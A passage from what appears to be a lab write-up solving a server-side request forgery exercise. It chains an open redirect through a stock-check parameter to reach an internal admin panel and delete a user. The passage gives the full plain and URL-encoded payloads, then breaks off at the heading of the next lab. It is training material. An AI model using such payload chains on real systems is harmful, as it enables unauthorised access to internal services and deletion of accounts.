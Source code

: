 Another intresting thing is unlike the previous challenges when trying to use the stockcheck feature I am able to see that it is not using a URL which is ``/product/stock/check?productId=1&storeId=1`` This means we cant pass the URL that we know such as ``localhost`` or ``127`` ip.

Looking at next product page we see something intresting in burp suite which is the request header for the method. which is ``/product/nextProduct?currentProductId=1&path=/product?productId=2`` This seems to be redirecting us from the first product to the second product. 

Now instead of having ``/product?productId=2`` here what if i try putting our URL to the admin panel ```http://192.168.0.12:8080/admin``

This changes the request header to ``/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin``. This seems to be giving a valid response upon trying. So we know this sort of redirection works and we have to use it with stockApi.

So now going back to the first products page we can then change our payload to be ``stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin`` However when trying this we get a message **"Missing parameter 'path'"** to which we understand that it is not in the correct form. 
So we URL encode the entire thing. which becomes ``stockApi=%2f%70%72%6f%64%75%63%74%2f%6e%65%78%74%50%72%6f%64%75%63%74%3f%63%75%72%72%65%6e%74%50%72%6f%64%75%63%74%49%64%3d%31%26%70%61%74%68%3d%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%32%3a%38%30%38%30%2f%61%64%6d%69%6e`` 

This shows us the admin panel. from here we search for the way to delete carlos which is ``/http://192.168.0.12:8080/admin/delete?username=carl``

![image](https://github.com/user-attachments/assets/3bbad147-6b7f-4e8e-8dc3-8d974283e132)

from here we make our payload ``stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos``
We then encode it like before to become ``stockApi=%2f%70%72%6f%64%75%63%74%2f%6e%65%78%74%50%72%6f%64%75%63%74%3f%63%75%72%72%65%6e%74%50%72%6f%64%75%63%74%49%64%3d%31%26%70%61%74%68%3d%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%32%3a%38%30%38%30%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73``

And hence the lab is solved.

![image](https://github.com/user-attachments/assets/275ed037-f7e1-473c-8716-86027c727351)

---

## SSRF with whitelist-based input filter

### Challenge
```
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.
```

### Solution
